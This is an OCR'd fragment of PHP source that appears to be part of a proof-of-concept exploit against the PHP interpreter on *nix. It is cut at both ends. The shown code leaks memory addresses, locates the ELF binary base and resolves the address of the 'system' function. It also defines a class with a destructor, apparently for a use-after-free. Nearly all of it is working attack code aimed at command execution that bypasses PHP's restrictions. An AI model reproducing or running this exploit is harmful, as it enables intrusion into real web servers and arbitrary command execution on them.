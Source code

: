 ```php
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $text_size) {
                $deref = leak($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    class ryat {
        var $ryat;
        var $chtg;
        
        function __destruct()
        {
            $this->chtg = $this->ryat;
            $this->ryat = 1;
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; # increase this value if you get segfaults

    $contiguous = [];
```